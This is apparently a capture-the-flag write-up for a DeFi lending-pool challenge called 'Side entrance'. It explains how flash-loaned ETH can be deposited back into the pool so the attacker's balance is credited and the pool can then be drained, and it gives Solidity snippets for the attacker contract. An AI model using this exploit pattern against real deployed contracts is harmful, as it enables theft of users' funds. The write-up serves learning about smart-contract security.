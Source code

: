 ## Side entrance

### Challenge description

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> You must take all ETH from the lending pool.

### Solution

SideEntranceLenderPool's `flashLoan()` function expects to interact with a contract and call its `execute` function forwarding the value that the borrower requests (`amount`). This contract is open to reentrancy vulnerabilities and it can be exploited to drain its funds.

Then, the `flashLoan()` function checks the following:

```solidity
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back"); 
```

Meaning the funds can be returned to the contract through `deposit()`:

```solidity
function execute() external payable {
    pool.deposit{value: msg.value}();
}
```

Given the reentrancy vulnerability, we can call `deposit()` in `execute()` with the funds obtained from the flash loan, which credits them to the attacker contract address in the `balances` mapping.

This entitles the attacker contract to withdrawing the full pool contract balance, which can be then forwarded to the attacker address:

```solidity
function withdrawFromPool() external payable {
    pool.withdraw();
}

receive() external payable {
    payable(owner).sendValue(msg.value);
}
```
